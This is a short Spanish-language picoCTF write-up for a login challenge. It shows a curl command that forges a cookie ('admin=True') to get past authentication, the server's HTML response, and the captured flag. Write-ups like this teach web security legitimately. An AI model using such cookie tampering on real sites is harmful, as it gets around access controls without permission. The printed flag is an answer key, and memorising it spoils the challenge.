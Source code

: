 ## Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
## Solución
```
┌──(jhow㉿DESKTOP-Q5FQ7BC)-[/mnt/c/retospicoctf]
└─$ curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "cookie: username=Jhohana;password=Hola;admin=True"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

</html>
┌──(jhow㉿DESKTOP-Q5FQ7BC)-[/mnt/c/retospicoctf]
└─$ curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "cookie: username=Jhohana;password=Hola;admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0    298      0  0:00:04  0:00:04 --:--:--   308
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
```
## Notas adicionales
+ `curl` es un comando que sirve como navegado offline en el que se tienen que pasar nombre de usuario y contraseña.
+ Para este reto existen otras dos formas de resolverlo, con un editor de cookies, mientras que la otra es editar las cookies de manera manual en el navegador.

## Referencias
+ https://es.wikipedia.org/wiki/Anexo:Cabeceras_HTTP
+ [Cookie (informática) - Wikipedia, la enciclopedia libre](https://es.wikipedia.org/wiki/Cookie_(inform%C3%A1tica))